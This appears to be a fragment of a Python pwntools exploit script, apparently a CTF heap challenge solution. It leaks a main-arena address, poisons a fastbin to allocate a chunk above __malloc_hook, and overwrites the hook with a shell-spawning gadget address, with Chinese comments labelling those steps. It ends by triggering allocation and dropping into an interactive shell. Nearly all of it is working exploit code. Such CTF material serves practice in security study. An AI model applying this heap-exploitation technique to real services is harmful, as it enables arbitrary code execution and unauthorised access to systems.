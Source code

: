 ```python
    fill(1, payload)
    free(3)

    arena_top = u64(dump(2)[:8])
    log.info("arena_top_chunk: " + hex(arena_top))

    alloc(0x60)
    free(3)

    fill(2, p64(arena_top - 139))    # malloc_hook上面的地址
    alloc(0x60)
    alloc(0x60)

    payload  = '\x00'*3
    payload += p64(0)*2
    payload += p64(arena_top - 3556100)  # getshell的地址
    fill(5, payload)

    alloc(233)

    r.interactive()

```

